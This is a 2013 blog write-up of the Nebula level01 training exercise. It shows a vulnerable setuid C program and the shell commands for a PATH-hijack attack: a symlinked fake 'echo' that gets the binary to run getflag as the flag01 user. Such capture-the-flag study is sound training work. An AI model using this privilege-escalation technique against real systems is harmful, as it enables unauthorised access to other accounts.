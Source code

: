 +++
author = "pwntester"
categories = ["nebula01"]
date = 2013-11-20T09:18:00Z
description = ""
draft = false
slug = "nebula-level01-write-up"
tags = ["nebula01"]
title = "Nebula level01 write-up"

+++

<p>In <a href="http://exploit-exercises.com/nebula/level01">Level01</a> , we are given the following vulnerable c program:</p>

```lang-clike line-numbers 
#include <stdlib.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 gid_t gid;
 uid_t uid;
 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 system("/usr/bin/env echo and now what?");
}
```

<p>This is the code of the <strong>/home/flag01/flag01</strong> program that runs as flag01 user</p>

```lang-bash line-numbers 
level01@nebula:~$ ls -la /home/flag01/flag01
-rwsr-x--- 1 flag01 level01 7322 Nov 20  2011 /home/flag01/flag01
```

<p>As setresuid sets the Real, Effective and Saved uids to the effective one (flag01), the following call to <strong>system</strong> will effectively run as <strong>flag01</strong>. We just a need to run the <strong>getflag</strong> program instead. In order to do that, we will create a symbolic link to <strong>getflag</strong> in our home diretory and call it <strong>echo</strong>. Now we only need to modify the <strong>PATH</strong> environment variable.

```lang-bash line-numbers 
level01@nebula:~$ ln -s /bin/getflag echo
level01@nebula:~$ export PATH=/home/level01:$PATH
level01@nebula:~$ /home/flag01/flag01
You have successfully executed getflag on a target account
```
